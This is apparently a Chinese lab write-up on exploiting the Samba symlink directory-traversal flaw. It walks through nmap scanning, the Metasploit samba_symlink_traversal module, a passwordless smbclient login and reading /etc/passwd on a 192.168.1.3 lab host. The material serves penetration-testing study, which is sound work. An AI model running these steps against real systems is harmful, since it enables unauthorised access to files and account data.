 ```yaml
---
title: sysmlink漏洞
date: 2021-12-20 16:32:26
tags: 
    - sysmlink
    - msf
---
```


## sysmlink 目录遍历漏洞

### 利用sysmlink漏洞读取目标主机的passwd文件内容

#### 原理：Samba是一套实现SMB（server messages block）协议，跨平台进行文件共享和打印共享服务的程序，samba的sambd默认配置在可写文件共享时，存在目录遍历漏洞，远程用户可以通过smbclient端使用一个对称命，创建一个包含..的目录遍历符的软连接 ，可以进行目录遍历以及访问任意文件。

### 过程：

使用`nmap -sV ip` 扫描主机，确认开放`445`，`139`端口且安装了`samba`服务，版本为3

![image-20211220165606561](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/sysmlink漏洞/image-20211220165606561.png)

命令行输入`search samba`，搜索samba的相关工具和载荷。

![image-20211220173445099](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/sysmlink漏洞/image-20211220173445099.png)

终端中输入`use auxiliary/admin/smb/samba_symlink_traversal`，启用漏洞利用模块

输入`info`，`"yes"`表示必须要填写的信息

![image-20211220173527544](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/sysmlink漏洞/image-20211220173527544.png)

输入`set RHOST 192.168.1.3`和`set SMBSHARE tmp`，设置主机ip地址和SAM可写文件

输入exploit开始攻击

![image-20211220173602852](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/sysmlink漏洞/image-20211220173602852.png)

新建终端，输入`smbclient //192.168.1.3/tmp`，直接回车，无密码

输入`cd rootfs`,进入rootfs目录，输入ls，列出目录

![image-20211220173635907](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/sysmlink漏洞/image-20211220173635907.png)

输入`more /etc/passwd`

![image-20211220173656794](https://oxchang.coding.net/p/image-one/d/image/git/raw/master/sysmlink漏洞/image-20211220173656794-16399930170041.png)

此实验完成
